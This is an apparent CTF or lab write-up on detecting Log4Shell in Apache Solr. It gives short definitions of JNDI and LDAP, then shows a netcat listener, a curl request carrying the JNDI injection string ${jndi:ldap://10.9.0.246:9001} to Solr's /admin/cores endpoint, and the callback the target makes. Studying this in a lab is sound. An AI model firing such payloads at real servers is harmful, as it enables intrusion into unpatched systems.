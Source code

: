 **Java Naming and Directory Interface (JNDI)**

The Java Naming and Directory Interface is a Java API for a directory service that allows Java software clients to discover and look up data and resources via a name. Like all Java APIs that interface with host systems, JNDI is independent of the underlying implementation.

**Lightweight Directory Access Protocol (LDAP)**

The Lightweight Directory Access Protocol is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over an Internet Protocol network.

**jndi-injections-java**

```web
https://www.veracode.com/blog/research/exploiting-jndi-injections-java
```

While searching about the apache solr got some interesting api (for injecting params)

```web
/admin/cores?
```

```web 
referance of how to use coreadmin api

https://solr.apache.org/guide/6_6/coreadmin-api.html
```

**Testing log4j is possible or not **

```bash 
mr4dot

$ nc -nlvp 9001
```

```bash 
mr4dot

$ curl '10.10.2.185:8983/solr/admin/cores?hello=$\{jndi:ldap://10.9.0.246:9001\}'
{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{}}
                                                                   
```

```bash 
mr4dot

$ nc -nlvp 9001                                                                                        1 ⨯
listening on [any] 9001 ...
connect to [10.9.0.246] from (UNKNOWN) [10.10.2.185] 39326
0
 `�

```
